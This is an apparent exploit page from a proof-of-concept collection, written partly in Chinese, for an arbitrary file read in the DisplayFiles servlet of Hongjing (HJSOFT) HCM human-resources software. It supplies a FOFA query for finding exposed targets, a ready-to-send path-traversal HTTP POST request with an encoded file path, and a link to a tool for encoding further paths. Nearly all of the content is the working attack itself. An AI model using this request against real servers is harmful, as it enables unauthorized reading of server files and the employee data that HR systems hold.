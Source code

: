 ## 宏景DisplayFiles任意文件读取

## fofa
```
app="HJSOFT-HCM"
```

## poc
```
POST /templates/attestation/../../servlet/DisplayFiles HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded

filepath=VHmj0PAATTP2HJBPAATTPcyRcHb6hPAATTP2HJFPAATTP59XObqwUZaPAATTP2HJBPAATTP6EvXjT
```
![image](https://github.com/wy876/POC/assets/139549762/3466b302-c1fc-42c9-929f-5d35500f13bd)

### 加解密工具
https://github.com/vaycore/HrmsTool 
